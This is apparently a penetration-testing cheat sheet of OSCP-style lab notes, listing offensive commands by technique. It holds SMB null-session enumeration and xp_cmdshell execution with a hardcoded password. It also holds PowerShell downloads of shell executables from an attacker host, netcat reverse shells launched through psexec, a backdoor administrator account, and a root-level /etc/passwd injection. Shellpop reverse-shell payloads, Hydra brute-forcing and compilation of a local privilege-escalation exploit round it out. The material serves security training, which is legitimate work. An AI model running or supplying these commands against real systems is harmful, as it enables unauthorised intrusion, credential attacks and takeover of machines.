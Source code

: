 #### SMB commands
smbmap -H 10.11.1.x -u null -p ""   
smbmap -H 10.11.1.x -u null -p "" -R    
smbclient \\\\\\\10.11.1.x\\\\'Bob Share' ""    

#### SMB file transfer
python /git/tools/impacket/examples/smbserver.py myshare /usr/share/priv/windows/   
net view \\\\10.11.0.x    
copy \\\\10.11.0.x\\shell.php    

#### xp_cmdshell
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=poiuytrewq,ms-sql-xp-cmdshell.cmd="net user" 10.11.1.x

#### transfer files
powershell -c (Invoke-WebRequest -Uri 'http://10.11.0.x/rev.exe' -OutFile 'C:\Users\Public\rev.exe')    
powershell -c (new-object System.Net.WebClient).DownloadFile('http://10.11.0.x/shell.exe','C:\Users\Public\shell.exe')   

#### execute cmd as another user 
psexec.exe -u alice -p some-pass "c:\Users\Public\nc.exe" 10.11.0.x 443 -e cmd.exe

#### execute nc as another user
$passwd = ConvertTo-SecureString "some-pass" -AsPlainText -Force   
$mycreds = New-Object System.Management.Automation.PSCredential ("alice", $passwd)    
$computer = "bethany"    
[System.Diagnostics.Process]::Start("C:\Users\Public\nc.exe"," -nvv 10.11.0.x 8082 -e cmd.exe",    
$mycreds.Username, $mycreds.Password, $computer)   

#### add windows admin user
net user sl0wly sl0wly /add   
net localgroup administrators sl0wly /add    

#### shellpop
shellpop --list 

#### shellpop reverse tcp
shellpop --payload linux/reverse/tcp/bash --host tap0 --port 443 --base64      
shellpop --payload linux/reverse/tcp/php --host tap0 --port 443     
shellpop --payload windows/reverse/tcp/powershell --host tap0 --port 443 --base64      

#### /etc/passwd writeable
echo 'slow:aaKNIEDOaueR6:0:0:slow:/root:/bin/bash' >> /etc/passwd   
su slow   
(foo)  

#### RDP
rdesktop -u sl0wly 10.11.1.x

#### HYDRA BF
hydra -l root -P /usr/share/wordlist/rockyou.txt -T 20 10.11.1.x ssh     
hydra -s 27900 -C /usr/share/wordlist/sparta/mssql-default-userpass.txt -f 10.11.1.x mssql   

#### compling .exe on kali
i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32

#### TMUX 
tmux new-session -d -s alice s    
tmux send-keys -t alice "AR 10.11.1.x -o /git/oscp/labs"
